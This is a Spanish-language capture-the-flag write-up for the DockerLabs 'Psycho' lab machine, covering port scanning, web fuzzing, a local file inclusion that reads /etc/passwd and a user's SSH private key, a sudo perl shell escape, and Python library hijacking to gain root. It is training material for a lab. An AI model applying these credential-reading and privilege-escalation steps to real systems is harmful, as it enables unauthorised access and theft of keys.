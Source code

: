 ```yaml
---
title: "PSYCHO DOCKERLABS"
date: 2025-05-18 10:00:00 +0000
categories: [DockerLabs]
tags: [DockerLabs, CTF]
image: /assets/img/DockerLabs/MachinePsycho/machine.png
---
```




La máquina Psycho de la plataforma DockerLabs es un reto de nivel fácil orientado a quienes están comenzando en el mundo del pentesting.
Es ideal para reforzar conocimientos sobre análisis de puertos, fuzzing, técnicas de enumeración web, y uso de herramientas comunes como Nmap, Gobuster, Wfuzz y GTFObins.



## INFORMACIÓN GENERAL

- **Plataforma**: Dockerlabs
- **Sistema Operativo**: Linux
- **Dificultad**: Fácil


## DESPLIEGUE
```bash
bash auto_deploy.sh psycho.tar
```
![despliegue](/assets/img/DockerLabs/MachinePsycho/despliegue.png)

## RECONOCIMIENTO
```bash
nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV 172.17.0.2 -oN ports
```
```bash
# Nmap 7.94SVN scan initiated Sat Mar  1 20:14:56 2025 as: nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV -oN ports 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2025-03-01 20:14:56 -05 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLmfDz6T3XGKWifPXb0JRYMnpBIhNV4en6M+lkDFe1l/+EjBi+8MtlEy6EFgPI9TZ7aTybt2qudKJ8+r3wcsi8w=
|   256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHtGVi9ya8KY3fjIqNDQcC9RuW20liVFDd+uUEgllPzQ
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 4You
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar  1 20:15:04 2025 -- 1 IP address (1 host up) scanned in 8.82 seconds
```
## ENUMERACION
![weberro](/assets/img/DockerLabs/MachinePsycho/PAGINA_ERROR.png)

Podemos fijarnos que hay un mensaje en la parte izquiera final de la web, indicando un error, como si una solicitud se estuviera tramitando mal
ya esto nos recuerda un poco a la Vulnerabilidad de LFI, realizaremos una fuerza bruta para descubrir directorios con gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml,csv,txt,html -t 20 -b 500,502,404
```
![gobuster](/assets/img/DockerLabs/MachinePsycho/gobuster.png)

Vemos que tenemos una carpetita `assets`, si sapeamos es una imagen, eh aplicado esteganografia para ver si hay data oculta pero no hay nada

![assets](/assets/img/DockerLabs/MachinePsycho/assets.png)

index.php nos dirige a la misma web, entonces vamos a aplicar un Fuzzing para ver si descubrimos un parametro y explotar un posible LFI
```bash
wfuzz -c --hc=404,500 --hw=169 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://172.17.0.2/index.php?FUZZ=whoami'
```
![Wfuzz](/assets/img/DockerLabs/MachinePsycho/wfuzz.png)
## EXPLOTACION
Como vemos tenemos un parámetro secret incluido en el index.php, vamos a la URL modificamos y tratamos de leer el `/etc/passwd` y bingo
tenemos 2 Usuarios que son: vaxei y luisillo 

![users](/assets/img/DockerLabs/MachinePsycho/users.jpg)

Entonces la unica forma que tenemos de aprovechar un inicio de sesión por ssh es con el id_rsa de los usuarios, pero para esto se tiene que apicar un Path Transversal porque asi nomas no deja y ojo: eh buscado el id_rsa del user Luisillo y no hay, solo se encuentra el de user vaxei

![id_rsa_vaxei](/assets/img/DockerLabs/MachinePsycho/id_rsa_vaxei.png)

extraemos el id_rsa y copiamos en un archivo que crearemos en nuestra maquina atacante, IMPORTANTE: darle permiso `chmod 600 id_rsa`

![permisos_id_rsa](/assets/img/DockerLabs/MachinePsycho/permisos_id_rsa.png)

```bash
ssh -i id_rsa vaxei@172.17.0.2
```
![login_vaxei](/assets/img/DockerLabs/MachinePsycho/login_vaxei.png)

## ESCALADA DE PRIVILEGIOS
La manera mas sencilla hacer 
```bash
sudo -l
```
si no, podemos aprovechar permisos SUID pero este no es el caso, podemos observar que el usuario Luisillo puede ejecutar `/usr/bin/perl`, es decir nos convertiremos primero en luisillo para luego escalar a root

![gtfobins](/assets/img/DockerLabs/MachinePsycho/gtfobins.png)

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'
```
![luisillo](/assets/img/DockerLabs/MachinePsycho/luisillo.png)

Volvemos a realizar un `sudo -l` con el usuario luisillo y vemos que podemos ejecutar comandos con todos los permisos pero en un solo archivo específico

![pivi_luisillo](/assets/img/DockerLabs/MachinePsycho/privi_luisillo.png)



al poder ver el contenido del archivo ``paw.py`, podemos aplicar una tecnica llamada *Python Library Jihacking*, para poder secuestrar una libreria y al 
momento de ejecutar el script, se ecute el script llamado igual que la libreria y ganar acceso

![subprocess](/assets/img/DockerLabs/MachinePsycho/subprocess.png)


ejecutamos el paw.py y hemos ganado acceso como root

![root](/assets/img/DockerLabs/MachinePsycho/root.png)


# ELIMINAR LA MAQUINA
```bash
Ctrl + C
```

# GRACIAS POR LEER